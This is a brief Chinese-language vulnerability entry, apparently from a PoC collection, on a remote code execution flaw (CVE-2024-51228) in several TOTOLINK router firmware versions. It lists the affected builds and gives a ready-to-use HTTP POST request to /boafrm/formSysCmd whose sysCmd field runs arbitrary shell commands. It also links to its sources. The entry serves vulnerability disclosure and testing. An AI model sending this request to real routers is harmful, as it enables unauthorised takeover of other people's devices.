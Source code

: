# TOTOLINK远程代码执行漏洞(CVE-2024-51228)

TOTOLINK远程代码执行漏洞(CVE-2024-51228)

## 影响版本

- TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512
- TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002
- TOTOLINK-CX-N300RT-V2.1.6-B20170724.1420
- TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408
- TOTOLINK-CX-N300RT-V2.1.8-B20191010.1107
- TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523

## poc

```
POST /boafrm/formSysCmd HTTP/1.1
Host: {Target IP}:{Target Port}
User-Agent: curl/7.81.0
Accept: */*
Content-Length: <length>
Content-Type: application/x-www-form-urlencoded

sysCmd={shell_cmd}
```



## 漏洞来源

- https://github.com/yckuo-sdc/totolink-boa-api-vulnerabilities
- https://xz.aliyun.com/t/16707